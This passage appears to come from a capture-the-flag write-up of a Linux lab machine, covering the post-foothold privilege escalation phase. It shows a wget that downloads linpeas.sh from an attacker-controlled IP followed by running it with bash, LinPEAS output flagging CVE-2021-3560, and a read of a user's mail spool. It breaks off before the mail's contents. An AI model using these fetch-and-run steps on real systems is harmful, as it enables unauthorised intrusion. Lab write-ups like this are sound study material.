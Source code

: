 ```text
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitorstwo:~$ 
```

We have an shell on the host.

### Privilege Escalation

In order to identify a way to escalade privilege, we use LinPEAS to have an overview of this host. For this, we will use `updog` as a HTTP file server on attacker host, and then download the script on target.

On attacker host :

```shell
cp /opt/resources/linux/linPEAS/linpeas.sh .                                 
updog
```

On target host :

```shell
wget http://10.10.14.17:9090/linpeas.sh
bash ./linpeas.sh
```

LinPEAS output a lot of things, but here are some noticable things :

```text
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 5.4.0-147-generic (buildd@lcy02-amd64-067) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #164-Ubuntu SMP Tue Mar 21 14:23:17 UTC 2023
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.6 LTS
Release:	20.04
Codename:	focal

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.31

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

╔══════════╣ Mails (limit 50)
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/mail/marcus
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/spool/mail/marcus
```

Let's start by reading the pending mail :

```shell
cat /var/mail/marcus
```

result :
